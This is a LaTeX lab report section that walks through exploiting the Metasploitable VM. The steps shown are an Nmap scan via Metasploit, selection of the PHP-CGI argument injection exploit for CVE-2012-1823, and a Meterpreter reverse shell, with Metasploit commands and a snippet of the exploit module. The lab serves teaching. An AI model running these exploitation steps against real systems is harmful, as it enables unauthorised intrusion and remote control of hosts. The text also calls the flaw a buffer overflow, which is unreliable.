\section{Exercise 2}
\label{sec:ex2}

We can now take a first look at Metasploit's exploit modules. Let us start from scratch, pretending Exercise 1 was never done and requiring a new scan.

\subsection{Setting up the database}
\label{subsec:ex2:setting-up-db}

In order to look at the services offered by the target machine - which will again be Metasploitable - we are now going to use \texttt{Nmap} instead of the auxiliary modules.

To get started with Metasploit's integration with Nmap, we need to verify that the database is alive and working. For the \texttt{ova} installation, this should be almost guaranteed. For the installation from scratch, please double check before proceeding. Figure \ref{fig:ex2:db_status} shows the correct output of \hltexttt{db\_status}.

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.5\textwidth]{../drawable/exercise_2_screenshots/db_status.png}
    \caption{Checking the DB setup is alive and working}
    \label{fig:ex2:db_status}
\end{figure}

The database is divided into \textit{workspaces}, which allow segmenting of the data stored inside. With \hltexttt{\mbox{workspace}} command, workspaces can be created, switched, and destroyed. In this lab, we will just use the default workspace.

By using commands such as \hltexttt{hosts}, and \hltexttt{\mbox{services}}, we realise that having had the database on all the time actually already filled it up with information with previous scans (Figure \ref{fig:ex2:services_hosts}). If needed, it can be discarded with we can wipe data with \hltexttt{\mbox{hosts -d}} and \hltexttt{\mbox{services -d}}. Additionally, we can stop the previous connections with \hltexttt{\mbox{sessions -K}}.

\begin{figure}[htbp]
	    \centering
	    
\includegraphics[width=0.6\textwidth]{../drawable/exercise_2_screenshots/services_before.png}
	    
\includegraphics[width=0.6\textwidth]{../drawable/exercise_2_screenshots/hosts_empty.png}
	    \caption{\hltexttt{\mbox{services}} and \hltexttt{hosts}}
    \label{fig:ex2:services_hosts}
\end{figure}

\subsection{Scanning again}
\label{subsec:ex2:scanning-again}

We are now ready to scan. We begin by using \hltexttt{\mbox{db\_nmap}}. Its syntax is equivalent to that of \texttt{nmap}. In this case, we're going to inspect the Metasploitable machine at the 1000 most popular ports (the list being provided by the tool) with a \texttt{TCP} scan. Additionally, we supply the \texttt{-O} flag, which instructs \texttt{db\_nmap} to perform OS fingerprinting.

\begin{lstlisting}
db_nmap --top-ports 1000 192.168.5.2-3 -O
\end{lstlisting}

Other types of scan are outside the scope of this laboratory, and can be found at the official \texttt{Nmap} website\footnote{https://nmap.org/docs.html}. Figure \ref{fig:ex2:db_nmap} shows the output of the command.

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.8\textwidth]{../drawable/exercise_2_screenshots/db_nmap_v2.png}
    \caption{Scanning the potential victims}
    \label{fig:ex2:db_nmap}
\end{figure}

Now that the database is populated, we can check again \hltexttt{\mbox{services}}. We will notice that the table has been populated with the newly found services from our target. Figure \ref{fig:ex2:services_full_cropped} shows the output of the command.

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.7\textwidth]{../drawable/exercise_2_screenshots/services_full_v2.png}
    \caption{Checking the data that we gathered}
    \label{fig:ex2:services_full_cropped}
\end{figure}

From the previous exercise - and as \hltexttt{\mbox{services}} reminds us - the \texttt{HTTP} server on the Metasploitable machine is old and runs a vulnerable version of \texttt{PHP}. However, this time we're not going to slip this through unnoticed.

%As we did in the previous exercise, we can now use a scanner to get some more details on the HTTP service:

%\begin{lstlisting}
%use auxiliary/scanner/http/http_version
%\end{lstlisting}

%Figure \ref{fig:ex2:use_http_version_scanner+execute_http_version} shows the output of the command.

%\begin{figure}[htbp]
%    \centering
%    
\includegraphics[width=\textwidth]{../drawable/exercise_2_screenshots/use_http_version_scanner.png}
%    
\includegraphics[width=\textwidth]{../drawable/exercise_2_screenshots/execute_http_version.png}
%    \caption{Preparing the scanner, and then hitting \hltexttt{run}}
%    \label{fig:ex2:use_http_version_scanner+execute_http_version}
%\end{figure}

% Of course, the results aren't surprising: the web server is highly vulnerable. 

\subsection{Taking the knives out}
\label{subsec:ex2:taking-knives-out}

We're now going to exploit the fact that this \texttt{PHP} version is riddlded with vulnerabilities\footnote{PHP doesn't exactly have a great record from a security standpoint: see\\\texttt{https://www.cvedetails.com/product/128/PHP-PHP.html?vendor\_id=74}}. 

At this point, we can go to the next phase and find a suitable exploit and payload for our vulnerability. A quick trip to a CVE database can yield tremendous results. For this laboratory, we decided to settle on \texttt{CVE-2012-1823}\footnote{\texttt{https://www.cvedetails.com/cve/CVE-2012-1823/}}. The vulnerability states the following:

\medskip

\begin{center}
\noindent\fbox{%
    \parbox{0.9\textwidth}{%
        \texttt{sapi/cgi/cgi\_main.c} in PHP before 5.3.12 and 5.4.x before 5.4.2, when configured as a CGI script (aka php\-cgi), does not properly handle query strings that lack an = (equals sign) character, which allows remote attackers to execute arbitrary code by placing command-line options in the query string, related to lack of skipping a certain php\_getopt for the 'd' case.
    }%
}
\end{center}

\medskip


{
\noindent
\begin{minipage}{\linewidth}

The following is a code snippet from \texttt{cgi\_main.c}, the source of the buffer overflow:

\begin{lstlisting}[showspaces=false,breaklines=true]
// [...] here len is the same length of php_optarg
memcpy(
    cgi_sapi_module.ini_entries + ini_entries_len,
    php_optarg,
    len
);
// [...]
\end{lstlisting}
\end{minipage}
}

{
\noindent
\begin{minipage}{\linewidth}

While this is another snippet from the exploit file.

\begin{lstlisting}
payload_oneline = "<?php " + payload.encoded.gsub(/\s*#.*$/, "").gsub("\n", "")
response = send_request_cgi( {
'method' => "POST",
'global' => true,
// [...]
}, 0.5)
\end{lstlisting}
\end{minipage}
}

Let us load up the exploit as usual.

\begin{lstlisting}
use exploit/multi/http/php_cgi_arg_injection
\end{lstlisting}

Then, we \hltexttt{set} our \texttt{RHOSTS} and \texttt{LHOST} variables. Figure \ref{fig:ex2:use_exploit_cgi_exception+set_exploit_options} shows these two steps. Notice how now the default payload defaults to \texttt{php/meterpreter/reverse\_tcp}.

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.8\textwidth]{../drawable/exercise_2_screenshots/use_exploit_cgi_exception.png}
    
\includegraphics[width=0.8\textwidth]{../drawable/exercise_2_screenshots/set_exploit_options.png}
    \caption{Using the default payload and setting options}
    \label{fig:ex2:use_exploit_cgi_exception+set_exploit_options}
\end{figure}

As we said before, the payloads in Metasploit are highly configurable, and each one of them may provide advantadges or disadvantages. For simplicity purposes, we decided to stick to the default one, which provides a \textit{reverse shell} with Meterpreter. Figure \ref{fig:ex2:shell_opened} shows what opening the shell actually looks like.

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.7\textwidth]{../drawable/exercise_2_screenshots/shell_opened.png}
    \caption{Opening a shell with Meterpreter}
    \label{fig:ex2:shell_opened}
\end{figure}

To end the exercise, we provide a little insight on what the payload actually provided. Once the exploit has been run on the target, we theoretically have the capability to \textit{execute arbitrary code by placing command-line options in the query string}, as the CVE definition says. This is the perfect moment for executing a payload's arbitrary code, and where our Meterpreter comes into play.

Meterpreter is a dynamically extensible payload that uses in-memory DLL injection stagers and is extended over the network at runtime. 
It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.\cite{online:meterpreter} In this case, Meterpreter was installed using a reverse shell: a shell that was initiated by the victim - unknowingly - rather than from the attacker. Figure \ref{fig:ex2:schema_reverse_shell} shows a diagram representing the logical idea behind reverse shells.

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.7\textwidth]{../drawable/decorations/schema_reverse_shell.png}
    \caption{Shell and reverse shell connections}
    \label{fig:ex2:schema_reverse_shell}
\end{figure}

The exercise has finished: for the final one, we're going even deeper on Metasploit, spicing things up with the usage of PDF files.

\clearpage